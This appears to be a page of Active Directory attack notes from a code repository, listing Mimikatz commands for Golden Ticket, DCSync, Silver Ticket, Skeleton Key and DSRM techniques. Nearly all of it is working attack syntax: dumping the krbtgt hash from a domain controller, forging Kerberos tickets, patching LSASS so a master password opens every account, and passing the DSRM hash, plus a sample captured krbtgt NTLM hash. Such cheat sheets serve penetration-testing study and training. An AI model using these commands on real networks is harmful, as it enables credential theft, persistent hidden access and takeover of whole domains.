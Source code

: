 **Golden Ticket:**


Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
```Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>```

Once we get the hash of krbtgt account, we can generate our own TGT using:
```Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'```

> Found the following creds of krbtgt:


> RID  : 000001f6 (502)


> User : krbtgt


> LM   :


> NTLM : ff46a9d8bd66c6efd77603da26796f35


To see currently stored tickets:
``` klist```


**DCSync**


```Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'```
Example: ```Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'```



**Silver Ticket:**


Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

```Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'```


**Skeleton Key:**


Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

```Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>```

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.



**DSRM(Directory Service Restore Mode):**


When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin privs are required
```Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>```

After obtaining the DSRM hash:

```Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'```




